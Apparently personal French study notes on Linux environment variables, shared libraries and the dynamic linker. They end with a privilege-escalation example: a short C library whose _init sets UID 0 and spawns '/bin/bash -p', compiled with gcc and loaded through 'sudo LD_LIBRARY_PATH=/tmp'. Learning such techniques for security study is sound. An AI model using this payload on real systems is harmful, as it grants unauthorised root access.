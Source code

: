 Définition :

Une var d'environnement c'est juste une variable pour chaque utilisateur. En gros chaque env(user) possède ses propres var d'env. Y'a quoi dedans ? ca dépent de la var.

Bibliothèque partagée/dynamique :

lib qui peut être utilisé par plusieurs programme en meme temps sans interférence. Ces lib ne sont pas entièrement dans le fichier binaire final. Seulement ce qui est nécessaire.

Programme statique :

Programme qui ne charge pas de bibli dynamique. Tout est entièrement dans le fichier binaire.

Dynamic linker :  
lie les bibliothèque à un programme. Travail facilité grace à l'option -fPIC.

-fPIC permet de situer la bibliothèque partagé. c'est une optimisation. En gros, si on lance deux fois le meme programme, les deux utiliseront la meme copie de la bibli. Par contre, si deux programme différent utilise la meme bibli, ils auront chacun leur propre copie pour leur propre nécessité. Tous ca facilite la tache pour le dynamic linker.

Liste des var d'env avec vuln :

LD_PRELOAD : Charge des bibliothèques partagés spécifié pour qu'elle chargent avant toute les autres. Donc par exemple si je créer une fonction print() qui stock des variables (rien a voir avec le vrai print) ce serai la fonction de ma bibli dans LD_PRELOAD qui sera prioritaire.

Exemple de vulnérabilité :

j'ai les perm pour executer un programme spécifique en sudo (que j'ai vu en faisant sudo -l).

je regarde quelles lib elle utilise donc : ldd emplacement/du/programme.

je fais gcc -o /tmp/nom_d'une_library qu'il utilise -shared -fPIC /home/user/tools/sudo/library_path.c

-shared pour créer un .so (shared object) partagé. -fPIC pour situer la bibli dynamiquement.

cette commande permet de créer une lib qui a le meme nom qu'un lib que le prog utilise déja pour la remplacer. dans cette lib, on mettra une fonction malvaillante qui aura le meme nom qu'un fonction deja utilisé dans le prog pour la remplacer. Exemple :

#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>

void _init() {  
        unsetenv("LD_PRELOAD");  
        setresuid(0,0,0);  
        system("/bin/bash -p");  
}

ensuite, on lance le prog : sudo LD_LIBRARY_PATH=/tmp nom_du_prog ld_library_path dit où chercher la lib partagé (avec la fonction malvaillante) donc dans ce cas ci, dans tmp
